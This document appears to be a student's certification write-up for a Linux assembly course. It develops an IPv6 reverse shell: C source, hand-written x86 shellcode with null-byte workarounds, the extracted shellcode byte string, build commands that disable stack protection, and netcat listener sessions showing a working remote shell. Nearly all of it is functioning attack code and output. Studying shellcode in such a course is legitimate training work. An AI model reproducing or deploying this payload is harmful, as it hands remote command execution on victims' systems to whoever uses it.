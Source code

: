 # Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 1483.

All these examples have been tested on real public IPv6 address over the Internet.

# IPv6

Lets try to change the code in order to remotely connect to an IPv6 address:

```C
#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>

int main()
{
	int my_socket = socket(AF_INET6, SOCK_STREAM, 0);

	struct sockaddr_in6 my_sockaddr;
	my_sockaddr.sin6_family = AF_INET6;
	inet_pton(AF_INET6, "xxxx:xxxx:xxxx:xxxx:xxxx:xxxx:xxxx:xxxx", &(my_sockaddr.sin6_addr));
	my_sockaddr.sin6_port = htons(4444);
 	connect(my_socket, (struct sockaddr *)&my_sockaddr, sizeof(my_sockaddr));

	int i;
	for(i = 0; i < 3; i++)
		dup2(my_socket, i);

	execve("/bin/sh", NULL, NULL);
	return 0;
}
```

In a first terminal, we start the listener

```
$ nc -6 -lv 4444
```

In another terminal, let's compile and run the program in order to check it.

```
$ gcc reverse_shell_ipv6.c -o C-reverse6
$ ./C-reverse6 
```
Connexion is done in our first terminal

```
$ nc -6 -lv 4444
Connection from 0.0.0.0 port 4444 [tcp/*] accepted
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
```

# ASM

Changes in the previous code are:
 * using a *sockaddr_in6* structure
 * using AF_INET6
 * using an IPv6 address

Regarding the previous IPv6 shellcode, *sockaddr_in6* structure and AF_INET6 are already known.

The only change will be to push a real IPv6 address. 

# Pushing 2a02:b0c0:1:e0:0:0:6ae:2002

The choosen address is 2a02:b0c0:1:e0:0:0:6ae:2002 (or 2a02:b0c0:1:e0::6ae:2002). This is not the real IPv6 address used for the tests.

It is interessant because there is some null bytes in it. If we do not have to avoid null bytes, this address will be pushed like below:

```ASM
	push 0x0220ae06 ;6ae:2002
  	push 0x00000000 ;0:0
	push 0xe0000100 ; 0001:00e0
	push 0xc0b0022A ; 2a02:b0c0
```

The *push 0x00000000* can be replace by a *push eax*

As it is not possible to push AL, let's play with registers in order to push *0001:00e0* on the stack:

```ASM
	mov bx, 0xe0e0
	mov bl, al ;al is 0x0
	push bx
  	mov bx, 0x0101
	mov bl, al ;al is 0x0
	push bx
```

## Final shellcode

```ASM
global _start

section .text

_start:
	; socketcall
	xor eax, eax
	mov al, 0x66
	xor ebx, ebx
	mov bl, 1

	xor ecx, ecx
	push ecx
	push ebx
	push 0xa
	mov ecx, esp
	int 0x80

	mov edi, eax

	;connect
	; IPv6: 2a02:b0c0:1:e0:0:0:6ae:2002
  	xor eax, eax
	push 0x0220ae06 ;6ae:2002
  	push eax ;0:0
	; 0001:00e0 -> e0000100
	mov bx, 0xe0e0
	mov bl, al ;al is 0x0
	push bx
  	mov bx, 0x0101
	mov bl, al ;al is 0x0
	push bx
	push 0xc0b0022A ; 2a02:b0c0
	push eax ; sin6_flowinfo
	push word 0x5c11
	push word 0xa
	mov edx, esp
 
	mov al, 0x66
	xor ebx, ebx
	mov bl, 3
	push 0x1c
	push edx
	push edi
	mov ecx, esp

	int 0x80

	;dup2 for loop
	xor ecx, ecx
	mov cl, 2

duploop:
	mov al, 0x3f	
	int 0x80
	dec ecx
	jns duploop	

	;execve
	mov al, 0xb
	xor ecx, ecx
	push ecx
	push 0x68732f6e
	push 0x69622f2f
	mov ebx, esp
	cdq
	int 0x80
```

## Compilation

Lets compile everything:

```
$ bash compile.sh reverse_shellcode_ipv6
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
$ bash get-shellcode.sh reverse_shellcode_ipv6
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x0a\x89\xe1\xcd\x80\x89\xc7\x31\xc0\x68\x06\xae\x20\x02\x50\x66\xbb\xe0\xe0\x88\xc3\x66\x53\x66\xbb\x01\x01\x88\xc3\x66\x53\x68\x2a\x02\xb0\xc0\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe2\xb0\x66\x31\xdb\xb3\x03\x6a\x1c\x52\x57\x89\xe1\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\xcd\x80"$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

Then, on the remote server we start the listener:

```
$ nc -6 -l 4444
```

Shellcode is executed:
```
$ ./shellcode 
Shellcode Length:  104
```

And check if everything is working on the remote server:

```
$ nc -6 -l 4444
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
```

As for the IPv4 shellcode, a Python script could be done in order to automize the port configuration.
